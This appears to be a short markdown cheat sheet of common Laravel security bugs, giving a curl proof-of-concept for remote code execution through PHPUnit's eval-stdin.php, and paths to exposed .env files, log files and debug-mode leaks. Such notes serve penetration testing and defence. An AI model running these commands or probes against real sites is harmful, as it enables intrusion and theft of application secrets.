 # Common bug in laravel framework
1. Laravel PHPUnit Remote Code Execution
* Full Path Exploit : http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
* Affected versions : Before 4.8.28 and 5.x before 5.6.3

Command
```
curl -d "<?php echo php_uname(); ?>" http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

2. Exposed environment variables 
* Full Path Exploit : http://target.com/.env

![Environment Variables](https://1.bp.blogspot.com/-EUTxgP5XE6Q/XkgB4SyWSbI/AAAAAAAAAQA/eqtALOjLKKA46si-lIosm6cDVmxByjzIQCLcBGAsYHQ/s1600/1.png)

3. Exposed log files
* Full Path Exploit : http://target.com/storage/logs/laravel.log

4. Laravel Debug Mode Enabled
* Using SQL injection query in GET or POST method
* Try path /logout (ex:target.com/logout)
* Using [] in paramater (ex:target.com/param[]=0)

![Laravel Debug Mode](https://hacken.io/wp-content/uploads/2019/07/laravel-screen.png)

Source: [Nakanosec](https://www.nakanosec.com/2020/02/common-bug-pada-laravel.html)

